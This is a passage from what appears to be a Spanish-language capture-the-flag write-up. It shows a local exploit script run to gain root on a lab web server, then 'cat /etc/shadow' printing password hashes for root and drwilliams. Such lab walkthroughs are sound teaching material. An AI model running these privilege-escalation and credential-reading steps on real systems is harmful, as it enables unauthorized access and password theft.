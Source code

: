 - Al ejecutar el script nos convertiremos en `root`.

```bash
www-data@webserver:/tmp$ chmod +x exploit.sh
www-data@webserver:/tmp$ ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@webserver:/tmp#
```

- No hay nada interesante como una flag ni nada pero como somos `root` y el usuario `drwilliams` existe podemos ver el `/etc/shadow`.

```bash
root@webserver:/home/drwilliams# cat /etc/shadow

root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
daemon:*:19462:0:99999:7:::
bin:*:19462:0:99999:7:::
sys:*:19462:0:99999:7:::
sync:*:19462:0:99999:7:::
games:*:19462:0:99999:7:::
man:*:19462:0:99999:7:::
lp:*:19462:0:99999:7:::
mail:*:19462:0:99999:7:::
news:*:19462:0:99999:7:::
uucp:*:19462:0:99999:7:::
proxy:*:19462:0:99999:7:::
www-data:*:19462:0:99999:7:::
backup:*:19462:0:99999:7:::
list:*:19462:0:99999:7:::
irc:*:19462:0:99999:7:::
_apt:*:19462:0:99999:7:::
nobody:*:19462:0:99999:7:::
systemd-network:!*:19462::::::
systemd-timesync:!*:19462::::::
messagebus:!:19462::::::
systemd-resolve:!*:19462::::::
pollinate:!:19462::::::
sshd:!:19462::::::
syslog:!:19462::::::
uuidd:!:19462::::::
tcpdump:!:19462::::::
tss:!:19462::::::
landscape:!:19462::::::
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
lxd:!:19612::::::
mysql:!:19620::::::
root@webserver:/home/drwilliams#
```

## Shell as drbrown

